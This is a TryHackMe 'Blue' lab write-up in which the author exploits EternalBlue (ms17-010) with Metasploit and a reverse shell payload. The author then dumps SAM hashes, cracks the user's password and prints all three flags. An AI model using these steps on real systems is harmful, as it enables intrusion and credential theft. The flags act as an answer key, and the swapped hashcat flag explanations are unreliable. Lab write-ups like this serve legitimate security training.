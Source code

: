 # Blue

Author: Corbett Stephens July 14, 2021

Blue is a TryHackMe room that explores the "Eternal Blue" exploit from older versions of windows. 

Room is [here](https://tryhackme.com/room/blue).

--------------------------------------------------------------------------------------------------

The first thing I do is start up openvpn that way I can connect to the TryHackMe rooms.

`sudo openvpn nullbett.ovpn`

## Reconnaissance
Host ip address: `10.10.48.230`

Next, I ping the host to see if we can get a response.

`ping 10.10.48.230`

Respones:
`PING 10.10.48.230 (10.10.48.230) 56(84) bytes of data.
64 bytes from 10.10.48.230: icmp_seq=1 ttl=125 time=180 ms
64 bytes from 10.10.48.230: icmp_seq=2 ttl=125 time=202 ms
64 bytes from 10.10.48.230: icmp_seq=3 ttl=125 time=224 ms
64 bytes from 10.10.48.230: icmp_seq=4 ttl=125 time=144 ms
64 bytes from 10.10.48.230: icmp_seq=5 ttl=125 time=167 ms
64 bytes from 10.10.48.230: icmp_seq=6 ttl=125 time=189 ms
^C64 bytes from 10.10.48.230: icmp_seq=7 ttl=125 time=212 ms
64 bytes from 10.10.48.230: icmp_seq=8 ttl=125 time=235 ms
^C
--- 10.10.48.230 ping statistics ---
8 packets transmitted, 8 received, 0% packet loss, time 7010ms
rtt min/avg/max/mdev = 144.010/193.973/235.202/28.333 ms`

We can see that the host is up and running, so now we can start with a nmap scan.

I run the command:
`nmap -p0-1000 -sC -sV -vv 10.10.48.230 -oN initial.nmap`

-"-p0-1000" scans the first 1000 ports
-"-sC" uses the default script for enumeration
-"-sV" tries to specify versions
-"-vv" extra verbosity
-"-oN initial.nmap" writes the output to the file initial.nmap

Looking at the [output](https://github.com/nullbett/tryhackme/blob/main/blue/initial.nmap) we can see that three ports are open.

`PORT    STATE SERVICE      REASON  VERSION
135/tcp open  msrpc        syn-ack Microsoft Windows RPC
139/tcp open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows`

We also get a hint that a potential user is "Jon".

The next thing I would do is run another nmap scan to look for vulnerablities. This could be done in the initial nmap scan but I decided to use two seperate scans. If stealth was a concern then I would otherwise use a different command.

I'm used the same command but changed the script to "vuln".

`nmap -p0-1000 --script vuln -sV -vv 10.10.48.230 -oN vuln.nmap`

Luckily, the results yield some intersting information.

`| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).`

Do to our vuln script we can see that this system is vulnerable to smb-vuln-ms17-010 which is a remote code execution vulnerability.

A simple google search of "smb-vuln-ms17-010" will pull up the information about this vulnerability. Reading the first line of the [article](https://nmap.org/nsedoc/scripts/smb-vuln-ms17-010.html) we can see that ms17-010 is also known as "EternalBlue". This is helpful information because it will make it easier a module to use within metasploit.

-----------------------------------------------------------------------------------------------------

#Gaining Access

We now want to try to gain futher access of this machine. We have a potential attack vector with EternalBlue. For someone that doesn't know the first step in using the EternalBlue exploit, use your favorite search engine to look for a starting position.

Fire up Metasploit!

In Kali Linux, you can do this by searching metasploit in the home bar and then typing in your sudo password. Otherwise, you'll want run "sudo msfdb init && msfconsole"

Once the metasploit shell is spawned the fun can begin.

Since my initial attack vector consists of EternalBlue, then I will look for a module that will allow me to use it.

This can be done via:
"search eternalblue" 

The module we want is "exploit/windows/smb/ms17_010_eternalblue" because this uses windows versions prior to windows 8

![](ms_module.png)

An easy way to select the module you want to use is to enter "use <number>" so we would enter "use 2"

We want to know the required fields for this module. This can be done by entering the command "options". This will allows us to see some important information.

**Picture**

We need to set the RHOSTS which is the target host that we are attacking. We do this by entering:

"set RHOSTS 10.10.48.230"

The playload we want to use is the "windows/x64/shell/reverse_tcp"

We can set this as the payload by doing "set payload windows/x64/shell/reverse_tcp"

To run the exploit we can simply enter "exploit"

If the exploit is successful then a DOS (disk operationg system) will appear. 

If we run "whoami" it tells us that we are "nt authority\system"

We want upgrade this shell to a meterprerter shell. Background the current shell by doing "CTRL + Z". I used this article to help upgrade my shell https://www.hackingarticles.in/command-shell-to-meterpreter/ 


I used "sessions -u 1"

**PICTURE**

Now that we have our meterpreter shell, we can run "getsystem" to ensure that we are indeed "nt authority\system".

Just because our user is system, doesnt mean that the process is. We will want to switch our process to one that is running "nt authority\system". This is shown below.

**PICTURE**

Meterpreter has a handy command to dump the SAM database. SAM is the system accounts manager. The SAM database stores passwords locally. By using the "hashdump" command we can get this data and try to make something useful with it.

We get the following data:

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

In this case, we are interested in Jon. I created a file named "jon_hash.txt" and put the hash values into the file. I decided that the long string of data was two 32 character hash strings and put them on seperate lines. To crack this hash, I used hashcat. I ran the following command. 

hashcat -m 0 -a 0 jon_hash.txt ./rockyou.txt --show

"-m 0" straight mode
"-a 0" MD5
"jon_hash.txt" hash file
"./rockyou.txt" dictionary
"--show" show results

john jon.hash --format=NT --wordlist=./rockyou.txt
john jon.hash --format=NT --show
Jon:alqfna22:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

password:alqfna22

#Task 5: Find Flags!

The first flag can be found by 'cd \' and then type 'flag1.txt'

Flag 1: flag{access_the_machine}

The second flag is found in config
C:\Windows\system32\config
"cat flag2.txt"

Flag 2: flag{sam_database_elevated_access}

Flag 3 can be found in C:\Users\Jon\Documents

Flag 3: flag{admin_documents_can_be_valuable}
